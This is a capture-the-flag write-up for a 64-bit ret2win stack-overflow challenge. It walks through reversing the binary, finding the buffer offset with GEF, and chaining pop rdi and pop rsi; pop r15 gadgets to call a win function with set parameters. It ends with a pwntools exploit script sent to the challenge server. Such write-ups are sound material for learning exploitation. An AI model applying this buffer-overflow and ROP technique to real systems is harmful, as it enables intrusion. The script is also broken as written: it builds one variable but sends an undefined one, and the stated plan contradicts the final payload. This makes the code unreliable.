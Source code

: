 
----------------------------------------
# 0〤丩ᐯ㇌尺𝓝丩㇄|$

------------------------------------------------------------------------------


# Challenge Description:
------------------------------------------------------------------------------
Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.

# Overview:
------------------------------------------------------------------------------
## File checks:

Running basic file checks on the binary:

![Alt text](Images/ret2win2.png)

We can see that the file is a ==non-stripped== 64-bit executable, with minimal protections, meaning it's a no-holds-barred challenge.

## Testing binary:

![Alt text](Images/ret2win1.png)

When running the binary we can see that it asks us for input, and tells us to get to the secret function so it's a basic ret2win challenge.

## Reversing the binary:

------------------------------------------------------------------------------
### main()
when opening the binary up when ghidra, we can start by looking at the main function, here is the decompiled version of it:

![Alt text](Images/main.png)


We can see that the application is very basic, it puts text on the screen and runs the user_input function, which the decompilation of is as follows:
### user_input()

![Alt text](Images/user_input.png)

Now it's obvious what we're going to do, the application sets a buffer of 32 bytes, and uses the ==gets== function, which is a very dangerous function, because gets doesn't know how big the buffer is, so it continues reading until it finds a newline or encounters EOF, and may overflow the bounds of the buffer it was given.


### Win()
and finally, the win function (or supersecrettoplevelfunction) as they're calling it:

![Alt text](Images/win.png)

The function checks for some parameters, which we can check the value of by right clicking on them, here is the value of the parameters:


![Alt text](Images/params.png)
![Alt text](Images/param2.png)


we can make out the parameters to be __cafebabe & c0debabe__

and finally we can construct our plan of attack.


# Plan of attack:
------------------------------------------------------------------------------

1. We will have to find the offset of the RIP
3. After that we have to pop some values off the stack to pass our parameters as per the [x64 calling conventions](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170)
4. We will then pass our parameters
5. Pass in our win_function address
6. And finally, we will wait for the magic to happen!


# Exploitation:
------------------------------------------------------------------------------

## Debugging with GDB-GEF:

First we generate a cyclic pattern using `pattern create <length>` inside of GEF, copying the value, pressing `r` and pasting it when the application prompts us.

![Alt text](Images/gef.png)


Looking at the result, we can see that the RIP didn't get overwritten as it would've if we were in a 32-bit application, and the application hit a Segmentation Fault when trying to return, we can also take note of where our cyclic pattern is, and currently it's in the $rsp register, meaning we have control over that. As to why our pattern didn't overwrite the RIP? I'll let you do this research on your own, but all the explanation can be found [here](https://coldfusionx.github.io/posts/ret2basic/)

So, after that we can find the offset by running `pattern search $rsp`, and getting the little-endian value of that. 

![Alt text](Images/search.png)


Read more about Endiannes [here](https://en.wikipedia.org/wiki/Endianness)

Alright, everything should be set from now, we send a payload that consists of the following:

our padding+a valid memory address of a jmp rsp instruction+pop rdi+param1+pop rsi+param2

So let's start:

## Finding ROP gadgets:

To find the valid instructions we need, we'll need to use ropper or ROPGadget from pwntools, but I prefer ropper.

First, we'll need a pop rdi instruction and we can find it using the following command:

![Alt text](Images/pop_rdi.png)

And then a pop rsi:

![Alt text](Images/pop_rsi.png)

But wait... there's no pop rsi, only pop rsi; pop r15?

That's no problem at all, we'll just have to modify our payload to be the `pop rsi; pop r15; ret` address, and pass in two parameters instead of one, the first parameter will be put into rsi and the second -which can be any junk- will be put into the r15 register.

## Finding the win function address:

And finally, using `readelf`, we can find the address of the win function which we will pass.

![Alt text](Images/readelf.png)


And now that we have everything we need, the final form of the payload will be: 
Padding + pop rdi+param1+pop rsi;r15+param2+junk_param+win_address


# The script:
------------------------------------------------------------------------------

```python


from pwn import *
elf=ELF('./ret2win')
session= remote('ret2win.challenges.ctf.ritsec.club', 1337)
win_function=p64(elf.symbols['supersecrettoplevelfunction'])
pop_rdi=p64(0x00000000004012b3)
param1=p64(0xcafebabe)
pop_rsi=p64(0x00000000004012b1)
param2=p64(0xc0debabe)
junk=p64(0x00)

padding=b'A'*40

joined_payload=padding+pop_rdi+param1+pop_rsi+param2+junk+win_function

print(stringpayload)
with open('payload','wb') as test:  # FOR DEBUGGING PURPOSES ONLY
	test.write(stringpayload)
#p = elf.process()                  # FOR DEBUGGING PURPOSES ONLY
# gdb.attach(p,"""
# 	b main
# 	r < payload
# 	c""")
session.sendline(stringpayload)
session.interactive()


```

------------------------------------------------------------------------------
